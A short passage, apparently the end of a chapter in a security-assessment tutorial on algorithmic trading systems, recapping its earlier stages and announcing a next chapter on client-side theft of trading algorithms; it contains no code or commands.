Your systematic security assessment has progressed from reconnaissance through authentication, real-time protocols, and database exploitation to client-side attacks that target the human element of algorithmic trading operations.

'''

_Next: Chapter 6 - Mind Control: Client-Side Algorithm Theft_

_"The researchers' workstations hold the keys to the kingdom."_
